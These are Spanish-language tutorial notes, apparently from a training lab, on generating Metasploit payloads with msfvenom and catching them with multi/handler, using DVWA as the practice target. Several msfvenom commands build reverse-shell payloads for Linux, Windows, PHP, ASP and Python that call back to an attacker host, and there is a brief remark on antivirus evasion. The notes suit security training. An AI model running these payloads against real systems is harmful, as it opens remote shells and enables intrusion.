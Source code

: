 Msfvenom reemplazó a Msfpayload y Msfencode y te permite generar payloads. Msfvenom te permite acceder a todos los payloads disponibles en el framework de Metasploit. Te permite crear payloads en diferentes formatos (PHP, exe, dll, elf, etc.) y para varios diferentes sistemas (Apple, Windows, Android, Linux, etc.).

------------------------
<h2>Formatos de salida</h2>
Puedes generar un ejecutable para meterpreter o un archivo crudo, como python. El comando `msfvenom --list formats` puede ser usado para listar formatos de salida soportados.

---------------------
<h2>Encoders</h2>
Contrario a lo que algunos piensan, los encoders no tratan de sobrepasar antivirus instalados. Efectivamente codifican el payload, pero más al ojo humano que a una máquina. Una práctica más robusta para evitar antivirus sería usar técnicas modernas de ofuscación o inyectar código shell. Para encodear debemos usar el parámetro `-e`, por ejemplo:

`msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 -f raw -e php/base64`

- `-p`: Especifica el tipo de payload.
- `-f`: Especifica el formato, en este caso `raw`, lo que significa que no contendrá headers ni formateo.
- `-e`: Especifica que el payload deberá ser encodeado.

------------------------
<h2>Handlers</h2>
Similar a los exploits generando una reverse shell, necesitarás ser capaz de aceptar conexiones entrantes generadas por el payload de Msfvenom. Al usar un módulo de explotación todo esto es manejado automáticamente. El término usado para recibir una conexión es "catching shell".

Explotaremos una vulnerabilidad presente en DVWA (Damn Vulnerable Web Application), los pasos son:

1. Generar una shell PHP usando MSFvenom.
2. Lanzar el handler de Metasploit.
3. Ejecutar la shell PHP.

>[!NOTE] El PHP de salida no tendrá el tag de php inicial ni final, hay que editarlo para que sea válido.

Para usar el multi handler, usaremos el módulo `use exploit/multi/handler`. El multi handler funciona para todos los payloads de Metasploit y puede ser usado para Meterpreter también.

Para usar el módulo, necesitaremos configurar el valor del payload (`php/reverse_php` en este caso), el LHOST y el LPORT.

--------------------
<h2>Otros payloads</h2>
Basándonos en la configuración del sistema objetivo, msfvenom puede usarse para crear payloads en casi todos los formatos:

<h5>Linux Executable and Linkable Format (elf)</h5>
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`

Es como el formato `.exe` en Windows.

<h5>Windows</h5>
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe`
<h5>PHP</h5>
`msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php`
<h5>ASP</h5>
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp`
<h5>Python</h5>
`msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py`


Todos estos ejemplos son payloads reverse.